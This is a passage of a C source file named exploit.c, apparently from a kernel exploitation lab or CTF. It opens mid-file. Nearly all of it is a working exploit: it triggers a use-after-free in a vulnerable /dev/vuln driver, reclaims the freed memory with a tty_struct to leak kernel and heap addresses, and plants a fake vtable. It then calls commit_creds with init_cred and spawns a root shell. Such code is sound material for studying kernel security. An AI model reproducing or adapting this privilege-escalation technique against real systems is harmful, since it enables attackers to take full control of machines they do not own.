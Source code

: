 ```c {script_name="exploit.c"}
}

void p64(uint64_t val, unsigned char out[8]) {
    for (int i = 0; i < 8; i++) {
        out[i] = (val >> (8 * i)) & 0xff;
    }
}

int main() {
    //open the vulnerable driver
    fd = open("/dev/vuln", O_RDWR);

    //allocate the buffer
    size_t buffer_size = BUFFER_SIZE;
    perform_ioctl(ALLOC, (size_t*)&buffer_size);

    //free it to get UAF
    perform_ioctl(FREE, NULL);

    //open ptmx
    tty = open("/dev/ptmx", O_RDONLY);

    //read
    perform_ioctl(USE_READ, (unsigned char*)&buf);
    pretty_print(buf, BUFFER_SIZE);

    //use leak from ptm_unix98_ops to get kernel base address
    uint64_t* tty_ops = (uint64_t*)(buf+32);
    kernel_base = *tty_ops - 0x1285100;
    printf("Kernel base address: %p\n", kernel_base);

    //use the heap leak in tty_struct to get location of buffer
    //  (or, location of tty_struct)
    uint64_t heap_leak = *(uint64_t*)(buf+64);
    buff_address = heap_leak-0x40;
    printf("Address of allocated buffer: %p\n", buff_address);

    //set tty_ops to point to the portion of the kernel buffer
    //  with our fake vtable
    *tty_ops = (uint64_t)(buff_address+FAKE_VTABLE_OFFSET);

    //modify the userland buffer here so we can change ioctl
    //  to a function we want
    vtable = (uint64_t*)(buf+FAKE_VTABLE_OFFSET);

    //commit_creds function
    uint64_t commit_creds = kernel_base+0xb9970;
    uint64_t prepare_kernel_cred = kernel_base+0xb9c20;
    uint64_t init_cred = kernel_base+0x1a52fc0;

    //commit init_cred
    execute(init_cred, commit_creds);

    //start system process; closing the ptys by terminating
    //  the program will crash the kernel
    system("/bin/sh");
}
```
